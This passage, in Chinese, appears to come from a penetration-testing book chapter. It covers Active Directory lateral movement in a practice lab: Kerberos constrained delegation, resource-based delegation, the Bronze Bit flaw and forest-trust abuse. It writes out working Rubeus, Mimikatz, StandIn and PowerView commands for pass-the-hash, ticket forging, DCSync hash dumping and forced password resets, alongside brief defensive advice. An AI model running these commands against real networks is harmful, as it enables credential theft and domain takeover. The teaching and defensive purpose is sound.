```

结果还将显示受限委托类型：


图 5.36 – 枚举委托类型

使用协议转换的受限委托可能会被滥用，通过以下命令：

```
Rubeus.exe s4u /msdsspn:CIFS/winterfell /impersonateuser:Administrator /domain:north.sevenkingdoms.local /user:jon.snow /rc4:B8D76E56E9DAC90539AFF05E3CCB1755 /altservice:HTTP /ptt
winrs -r:winterfell cmd.exe
```

结果可以在以下截图中看到：


图 5.37 – 协议转换滥用的受限委托结果

需要特别说明的是，SPN 部分在请求中未加密，这就是为什么我们可以使用 Rubeus 中的`/altservice`选项来获取服务票证——在我们这个例子中，是 WinRM。

注意

可用服务的详细列表可以在这里找到：[`book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket#available-services`](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket#available-services)。

HTTP 服务配置时未进行协议转换，如下图所示：


图 5.38 – 配置了无协议转换的受限委托

在这种情况下，S4U2Self 请求不会导致可转发的票证，因此 S4U2Proxy 将无法工作。滥用无协议转换的受限委托的两种已知方法是：对服务执行 RBCD 攻击，或强制用户对服务进行身份验证以提取票证。为了滥用无协议转换的受限委托，我们将创建一个计算机账户，并将 `castelblack` 设置为允许从该账户进行 RBCD（我们需要 `SYSTEM` 权限来设置此属性）。然后，我们将以 `administrator` 身份委托到 `castelblack`，最后，我们可以在 S4U2Proxy 请求中使用这个可转发的 ST 来访问 `Winterfell` 服务。听起来很复杂，但我们将一步一步执行这个攻击。

在第一步中，我们将创建一个会话作为 `Castelblack$`，创建一个名为 `Test$` 的计算机账户，检索其 **安全标识符**（**SID**），并将 `Castelblack$` 的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性设置为 `Test$`。我将使用 Mimikatz、PowerView 和 StandIn：

```
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:castelblack$ /ntlm:abd0f0459c9d6119d092d1bd87cb958b /domain:north.sevenkingdoms.local /run:cmd.exe"
StandIn.exe --computer Test --make
Get-DomainComputer -Name Test -Properties objectsid
StandIn.exe --computer castelblack --sid S-1-5-21-3600105556-770076851-109492085-1605
```

StandIn 命令的结果如以下截图所示：


图 5.39 – 创建计算机账户并准备 RBCD 滥用

接下来，我们将从计算机账户的密码计算出 AES256 密钥，并在 `Castelblack$` 上使用 `Test$` 滥用 RBCD。现在，我们拥有 `Castelblack$` 的可转发 ST：

```
Rubeus.exe hash /domain:north.sevenkingdoms.local /user:test$ /password:yN26WROLQvUCa30
Rubeus.exe s4u /user:test$ /aes256:5D2320ABFAFEA7 A451DC0883CB120047A93E1D38B632D42ACD2997F104D6C30A /impersonateuser:administrator /msdsspn:http/castelblack.north.sevenkingdoms.local /nowrap
```

最后，我们将使用可转发的 ST 来访问 Winterfell 的文件系统：

```
Rubeus.exe s4u /user:castelblack$ /rc4:abd0f0459c9d6119d092d1bd87cb958b /msdsspn:http/winterfell.north.sevenkingdoms.local /tgs:"ticket_from_previous_step" /altservice:cifs /ptt
dir \\winterfell.north.sevenkingdoms.local\c$
```

攻击的结果如以下截图所示：



图 5.40 – 成功滥用无协议转换的受限委托

这些步骤也可以从 Linux 机器上执行，如实验室创建者提供的操作步骤所示[16]。

## Bronze Bit 攻击，又名 CVE-2020-17049

对于某些类型的委托滥用，票证需要设置 **可转发** 标志。未设置该标志的原因可能是伪装的用户是 **受保护用户** 组的成员，或者配置了 **敏感且无法委托** 的标志。此外，服务可能被配置为仅支持 `Kerberos` 的受限委托。在 2020 年，发现了 Bronze Bit 漏洞，攻击者可以编辑票证并设置所需的 **可转发** 标志。

在实践中，我们可以使用 Imapacket 中 `getST` Python 脚本的`force-forwardable`标志。

注意

一个很好的实际示例，涵盖了两个最常见的场景，可以在此处找到：[`www.netspi.com/blog/technical/network-penetration-testing/cve-2020-17049-kerberos-bronze-bit-attack/`](https://www.netspi.com/blog/technical/network-penetration-testing/cve-2020-17049-kerberos-bronze-bit-attack/)。

唯一的建议是打补丁操作系统。

在域内部横向移动后，攻击者可能会进一步传播到受信任的林。下一节将介绍这种移动的可能限制并介绍可用的安全机制。

# 滥用信任进行横向移动

在本节中，我们将讨论滥用林信任进行横向移动的各种方法。关于如何从子域迁移到林中的父域，参见*第六章**/*。

我们将首先介绍必要的理论，然后将其应用于实践。正如微软所述，**林**是一个安全边界，由一个或多个共享公共架构、配置和全局目录的 AD 域组成。**架构**定义了林内的对象，全局目录包含林中各个域中每个对象的部分属性集。信任关系有六种类型；我们将重点关注**外部**和**林**类型。为了更好地理解安全边界，我们需要讨论**安全标识符**（**SID**）、**SID 历史**属性和**SID 过滤**。

SID 是分配给域中每个安全主体的唯一标识符。SID 过滤是过滤掉来自其他域的 SID 的机制。

注意

过滤规则可以在此处找到：[`learn.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/55fc19f2-55ba-4251-8a6a-103dd7c66280`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/55fc19f2-55ba-4251-8a6a-103dd7c66280)。

简单来说，关于横向移动的可能性和 SID 过滤，有两个要点需要记住：

+   如果完全执行 SID 过滤，则所有非受信任域的 SID 将被过滤。然而，*企业域控制器* SID、*受信任域对象* SID 和 *NeverFilter* SID 会被排除在域信任 SID 过滤之外[17]。

+   **外部**信任比**林**信任更宽松。

接下来的动态部分是**SID 历史**。SID 历史是用户或组的一个属性，允许在从一个域迁移到另一个域时保留旧的 SID，以便保持必要的访问权限。SID 历史值可以根据 SID 过滤行为进行过滤。林间信任有不同的身份验证级别可用：**整个林**、**整个域**和**选择性**。选择性身份验证是最严格的，因为它要求主体和对象之间有直接匹配。这是理解如何跨林迁移所需的基本理论。

作为第一步，我们将枚举实验室中的森林信任关系。然后，我们将讨论常见的攻击向量及其限制，如密码重用、外部组成员破坏、森林间无约束委派滥用以及将额外的 SID 注入 SID 历史中。

对于信任枚举，我们有许多工具可以使用，如 PowerView、BloodHound 或 Netdom 实用工具。PowerView 中有以下命令可用：

+   `Get-DomainTrust`

+   `Get-ForestTrust`

+   `Get-DomainTrustMapping`

第一个命令执行的结果如以下截图所示：


图 5.41 – 当前用户域的所有信任关系

我们将开始讨论密码重用攻击的攻击选项。在真实环境中，这种攻击通常是成功的。通过从受损的森林中导出用户，查找外部森林中的相同用户账户，然后尝试对其进行密码重用攻击。

接下来，我们可以借助 PowerView 命令（`Get-DomainForeignUser` 和 **Get-DomainForeignGroupMember**）或使用 *Mayfly* 在其演示中提供的 BloodHound 查询来枚举外部组和用户：

```
MATCH p = (a:Domain)-[:Contains*1..]->(x)-->(w)-->(z)<--(y)<-[:Contains*1..]-(b:Domain) where (x:Container or x:OU) and (y:Container or y:OU) and (a.name <>b.name) and (tolower(w.samaccountname) <> "enterprise admins" and tolower(w.samaccountname) <> "enterprise key admins" and tolower(z.samaccountname) <> "enterprise admins" and tolower(z.samaccountname) <> "enterprise key admins")  RETURN p
```

以下是具有跨域和森林访问权限的用户和组：


图 5.42 – 具有跨域和森林权限的用户和组

在我们破坏了具有 `SPYS` 组成员身份的用户之后，我们可以在森林之间进行横向移动，并享受我们的新权限。

另一种破坏森林信任的方法是滥用**Kerberos 无约束委派**（**KUD**），在启用了 KUD 的本地机器和外部森林中的域控制器之间通过使用 PrinterBug 或 PetitPotam 强制认证。然而，只有在启用了 TGT 委派的情况下才可行，这一设置默认直到 2019 年 3 月才被禁用。在我们的案例中，我们通过 Rubeus 和 PrinterBug 帮助下复制了该攻击以强制认证：

```
Rubeus.exe monitor /filteruser:MEEREEN$ /interval:1 /nowrap
spool.exe meereen.essos.local kingslanding.sevenkingdoms.local
Rubeus.exe ptt /ticket:"base64_ticket_from_capture"
Mimikatz.exe "lsadump::dcsync /all /csv /domain:essos.local"
```

结果，我们从 `essos` 森林中导出了所有哈希值：


图 5.43 – essos 森林中所有域对象的哈希值

SID 筛选可以处于三种状态：**禁用**、**放宽** 和 **强制**。如果 SID 筛选被禁用，攻击者将能够轻松添加 `Enterprise Admins` 组的 RID，从而访问目标域控制器进行 `DCSync` 攻击。

当 SID 筛选完全启用时，横向移动的唯一可能性是破坏具有目标森林权限的域用户，或通过利用 CVE-2020-0665 绕过 SID 筛选。

注意

利用步骤在此处有详细描述：[`www.thehacker.recipes/ad/movement/trusts#cve-2020-0665`](https://www.thehacker.recipes/ad/movement/trusts#cve-2020-0665)。

如果启用了 SID 历史，则表示 SID 过滤放宽了（`TREAT_AS_EXTERNAL` 标志）。在这种情况下，攻击者可以通过将组的 SID 添加到 SID 历史属性中，伪造自己属于任何 `RID > 1000`[19] 的组。在我们的示例中，我们将借助 PowerView 枚举 `essos.local` 林中的组，寻找 `RID > 1000` 的有趣组：

```
Get-DomainGroup -Domain essos.local | select samaccountname, objectsid
```

结果，我们找到了一些有前途的候选项：


图 5.44 – essos.local 中的域组，RID > 1000

`Spys` 对 `jorah.mormont` 用户具有 `GenericAll` 权限，这意味着我们可以完全控制该用户：

```
mimikatz.exe "kerberos::golden /user:Administrator /domain:sevenkingdoms.local /sid:S-1-5-21-4243769114-3325725031-2403382846 /sids:S-1-5-21-2801885930-3847104905-347266793-1109 /rc4:f622cc44c550868e310fbf5ded4194f3 /service:krbtgt /target:essos.local /ticket:trust.kirbi"
Rubeus.exe asktgs /ticket:trust.kirbi /service:ldap/meereen.essos.local /dc:meereen.essos.local /ptt
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity jorah.mormont -domain essos.local -AccountPassword $UserPassword -Verbose
```

密码已成功更改，以下截图显示了这一点：


图 5.45 – 密码更改成功

使用 `crackmapexec` 验证新密码是否已成功设置：


图 5.46 – 使用新密码成功登录

为防止跨林滥用，确保严格的 SID 过滤已启用，TGT 委派和 SID 历史已禁用，并且 ACL 已正确应用于林中的对象。然而，如果攻击者能够破坏或冒充具有外部组成员资格的用户，只有选择性认证才能限制损害。

# 总结

本章讨论了横向渗透的主题。我们讨论了如何使用管理协议在环境中进行移动。这是一种有效的方式，可以与正常流量融合并避开监控。哈希转发的概念是一个强有力的武器，尤其是在缺乏加固的环境中。像禁用未使用的协议和服务这样的简单建议，可以显著提高安全性。需要指出的是，在复杂的环境中，即使是简单的变更也可能造成混乱和宕机，因此需要进行彻底的测试。深入探讨 Kerberos 认证、不同类型的委派以及如何滥用它们，帮助我们更详细地理解 Kerberos 协议的复杂性以及每种委派类型的安全影响。我们已经在实践中证明，对于成功的横向渗透，攻击者不一定需要受害者的密码。任何形式的凭证材料，如哈希值、票据或密钥，都可以作为替代。保持隐蔽并模拟真实的身份验证尝试需要对你的技术有深入的理解。在 *第八章* 中，我们将展示证书也可以用于横向渗透。最后但同样重要的是，跨林横向渗透表明，这不仅仅关乎你的安全性，还涉及到你的受托人是谁。在下一章中，我们将讨论域内特权提升的问题。

# 参考资料

1.  Evil-WinRM：[`github.com/Hackplayers/evil-winrm`](https://github.com/Hackplayers/evil-winrm)

1.  在实验室设置 JEA：[`cheats.philkeeble.com/active-directory/ad-privilege-escalation/jea`](https://cheats.philkeeble.com/active-directory/ad-privilege-escalation/jea)

1.  RACE 工具包：[`github.com/samratashok/RACE`](https://github.com/samratashok/RACE)

1.  用户权限分配：RDP - [`blog.cptjesus.com/posts/userrightsassignment/`](https://blog.cptjesus.com/posts/userrightsassignment/)

1.  RestrictedAdmin：[`github.com/GhostPack/RestrictedAdmin`](https://github.com/GhostPack/RestrictedAdmin)

1.  SharpRDP：[`github.com/0xthirteen/SharpRDP`](https://github.com/0xthirteen/SharpRDP)

1.  SharpRDPThief：[`github.com/passthehashbrowns/SharpRDPThief`](https://github.com/passthehashbrowns/SharpRDPThief)

1.  Impacket：[`github.com/fortra/impacket`](https://github.com/fortra/impacket)

1.  CVE-2019-1019 漏洞分析：[`securityboulevard.com/2019/06/your-session-key-is-my-session-key-how-to-retrieve-the-session-key-for-any-authentication/`](https://securityboulevard.com/2019/06/your-session-key-is-my-session-key-how-to-retrieve-the-session-key-for-any-authentication/)

1.  Dementor：[`github.com/NotMedic/NetNTLMtoSilverTicket/blob/master/dementor.py`](https://github.com/NotMedic/NetNTLMtoSilverTicket/blob/master/dementor.py)

1.  Drop-the-MIC 扫描器：[`github.com/fox-it/cve-2019-1040-scanner`](https://github.com/fox-it/cve-2019-1040-scanner)

1.  检查登录用户的 Kerberos 票证中的用户名：[`gist.github.com/JoeDibley/fd93a9c5b3d45dbd8cbfdd003ddc1bd1`](https://gist.github.com/JoeDibley/fd93a9c5b3d45dbd8cbfdd003ddc1bd1)

1.  StandIn：[`github.com/FuzzySecurity/StandIn`](https://github.com/FuzzySecurity/StandIn)

1.  Powermad：[`github.com/Kevin-Robertson/Powermad`](https://github.com/Kevin-Robertson/Powermad)

1.  以普通用户身份利用 RBCD：[`www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.xhtml`](https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.xhtml)

1.  从 Linux 滥用受限委托：[`mayfly277.github.io/posts/GOADv2-pwning-part10/#without-protocol-transition`](https://mayfly277.github.io/posts/GOADv2-pwning-part10/#without-protocol-transition)

1.  绕过 SID 过滤：[`improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-4-bypass-sid-filtering-research`](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-4-bypass-sid-filtering-research)

1.  Windows Server 中跨入站信任的 TGT 委托更新：[`support.microsoft.com/en-us/topic/updates-to-tgt-delegation-across-incoming-trusts-in-windows-server-1a6632ac-1599-0a7c-550a-a754796c291e`](https://support.microsoft.com/en-us/topic/updates-to-tgt-delegation-across-incoming-trusts-in-windows-server-1a6632ac-1599-0a7c-550a-a754796c291e)

1.  滥用 SID 历史: [`dirkjanm.io/active-directory-forest-trusts-part-one-how-does-sid-filtering-work/`](https://dirkjanm.io/active-directory-forest-trusts-part-one-how-does-sid-filtering-work/)

# 进一步阅读

以下是进一步学习的资料，帮助你深入了解本章中涉及的攻击：

+   SharpRDP 工具创建背后的原始研究: [`0xthirteen.com/2020/01/21/revisiting-remote-desktop-lateral-movement/`](https://0xthirteen.com/2020/01/21/revisiting-remote-desktop-lateral-movement/)

+   借助 Mimikatz 转储 RDP 凭据: [`pentestlab.blog/2021/05/24/dumping-rdp-credentials/`](https://pentestlab.blog/2021/05/24/dumping-rdp-credentials/)

+   关于远程凭据保护的微软文档: [`learn.microsoft.com/en-us/windows/security/identity-protection/remote-credential-guard`](https://learn.microsoft.com/en-us/windows/security/identity-protection/remote-credential-guard)

+   *0xf0x* 关于 Impacket 使用与检测的精彩研究: [`neil-fox.github.io/Impacket-usage-&-detection/`](https://neil-fox.github.io/Impacket-usage-&-detection/)

+   关于远程命令执行所留下的痕迹的详细发布: [`www.synacktiv.com/publications/traces-of-windows-remote-command-execution.xhtml`](https://www.synacktiv.com/publications/traces-of-windows-remote-command-execution.xhtml)

+   关于 ASR 实现的更多信息: [`www.joeyverlinden.com/implementing-and-monitoring-attack-surface-reduction-rules-asr/`](https://www.joeyverlinden.com/implementing-and-monitoring-attack-surface-reduction-rules-asr/)

+   关于 NTLM 中继攻击和条件的理论背景: [`www.thehacker.recipes/ad/movement/ntlm/relay`](https://www.thehacker.recipes/ad/movement/ntlm/relay)

+   关于 NTLM 协议不同版本差异的详细博客文章: [`www.praetorian.com/blog/ntlmv1-vs-ntlmv2/`](https://www.praetorian.com/blog/ntlmv1-vs-ntlmv2/)

+   检测 Pass-the-Hash 攻击: [`blog.netwrix.com/2021/11/30/how-to-detect-pass-the-hash-attacks/`](https://blog.netwrix.com/2021/11/30/how-to-detect-pass-the-hash-attacks/)

+   无约束委派: [`en.hackndo.com/constrained-unconstrained-delegation/#unconstrained-delegation`](https://en.hackndo.com/constrained-unconstrained-delegation/#unconstrained-delegation)

+   LDAP 语法过滤器列表: [`social.technet.microsoft.com/wiki/contents/articles/5392.active-directory-ldap-syntax-filters.aspx`](https://social.technet.microsoft.com/wiki/contents/articles/5392.active-directory-ldap-syntax-filters.aspx)

+   RBCD 攻击执行示例: [`pentestlab.blog/2021/10/18/resource-based-constrained-delegation/`](https://pentestlab.blog/2021/10/18/resource-based-constrained-delegation/)

+   关于带有模式和流量捕获的受限委托滥用的详细解释：[`www.notsoshant.io/blog/attacking-kerberos-constrained-delegation/`](https://www.notsoshant.io/blog/attacking-kerberos-constrained-delegation/)

+   Bronze Bit 漏洞及其背后的理论：[`www.netspi.com/blog/technical/network-penetration-testing/cve-2020-17049-kerberos-bronze-bit-theory/`](https://www.netspi.com/blog/technical/network-penetration-testing/cve-2020-17049-kerberos-bronze-bit-theory/)
